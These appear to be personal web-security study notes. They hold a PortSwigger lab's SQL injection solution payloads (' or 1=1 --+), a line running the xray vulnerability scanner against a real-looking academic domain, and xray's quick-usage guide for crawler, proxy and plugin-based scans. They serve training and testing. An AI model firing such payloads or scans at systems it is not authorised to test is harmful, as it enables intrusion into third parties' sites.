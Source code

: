 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
``` SELECT * FROM products WHERE category = 'Gifts' AND released = 1
 ```

 Soln--> SELECT * FROM products WHERE category = ' '  ' --+ AND released = 1

 SELECT * FROM products WHERE category = ' '  or 1=1  ' --+ AND released = 1


https://portswigger-cdn.net/burp/releases/download?product=pro&version=2024.10.3&type=Jar









# XRAY 
 ```
./xray_linux_amd64 webscan --url https://bwed.ac.in/ --html-output vuln.html
 ```
## 🚀 Quick Usage

**Before using, be sure to read and agree to the terms in the [License](https://github.com/chaitin/xray/blob/master/LICENSE.md) file. If not, please do not install or use this tool.**

1. Use the basic crawler to scan the links crawled by the crawler for vulnerabilities

    ```bash
    xray webscan --basic-crawler http://example.com --html-output vuln.html
    ```

2. Use HTTP proxy for passive scanning

    ```bash
    xray webscan --listen 127.0.0.1:7777 --html-output proxy.html
    ```
   Set the browser's HTTP proxy to `http://127.0.0.1:7777`, then you can automatically analyze proxy traffic and scan it.

   > To scan HTTPS traffic, please read the "Capture HTTPS Traffic" section below.

3. Scan a single URL without using a crawler

    ```bash
    xray webscan --url http://example.com/?a=b --html-output single-url.html
    ```

4. Manually specify plugins for this run

   By default, all built-in plugins will be enabled. You can specify the plugins to be enabled for this scan with the following commands.

   ```bash
   xray webscan --plugins cmd-injection,sqldet --url http://example.com
   xray webscan --plugins cmd-injection,sqldet --listen 127.0.0.1:7777
   ```

5. Specify Plugin Output

   You can specify to output the vulnerability information of this scan to a file:

    ```bash
    xray webscan --url http://example.com/?a=b \
    --text-output result.txt --json-output result.json --html-output report.html
    ```

   [Sample Report](https://docs.xray.cool/assets/report_example.html)

For other usage, please read the documentation: https://docs.xray.cool
